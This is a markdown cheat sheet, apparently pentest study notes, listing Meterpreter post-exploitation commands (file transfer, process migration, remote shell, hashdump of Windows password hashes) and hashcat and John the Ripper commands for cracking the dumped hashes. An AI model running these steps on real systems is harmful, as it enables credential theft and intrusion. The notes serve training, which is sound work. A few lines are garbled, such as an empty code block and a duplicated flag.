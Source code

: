 # meterpreter
To download/upload to target, send session to background :
```console
download
upload
background
```
To list and change process:
```
console
ps
migrate <PID>
```
Execute command in remote host, downgrade to shell, search files on target
```
console
execute <command>
shell
search <filename>
```
Tip migration to spoolsv.exe (print service) is always advisable (due to stability)
To dump the hashes of Windows using the Meterpreter:
```console
hashdump
```

# Hash crack
Sometimes to properly work with hashcat you need to install a open source implementation ofopenCL called portable OpenCL or pocl:
```console
pacman -S pocl
```
Before cracking be sure to identify them with hashid:
```console

```
Hashcat uses modes and do not autodetect the type of hash (check the mode hashcat -h)
Hascat flags:

1. -m   to specify the mode
1. -a   to enable attack mode
1. -a 3 to enable brute force attack
1. -a 3 to enable brute force attack
Example of using hashcat:
```console
hashcat -m <hashmode> -a <attackmode> -o <outputfile> <targetfile> <wordlist>
hashcat -m 0 -a 0 -o output target /usr/share/wordlists/rockyou.txt
```
John the Reaper (jtr) is also quite common to use:
```console
john --wordlist=[FILE] --format=[HASHNAME] --rules=[=SECTION]
john target --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```
To crack the hash use:
```console
john john_hash --format=NT --wordlist=/usr/share/wordlist/rockyou.txt
```
To showed the cracked result:
```console
john john_hash --format=NT --show
```
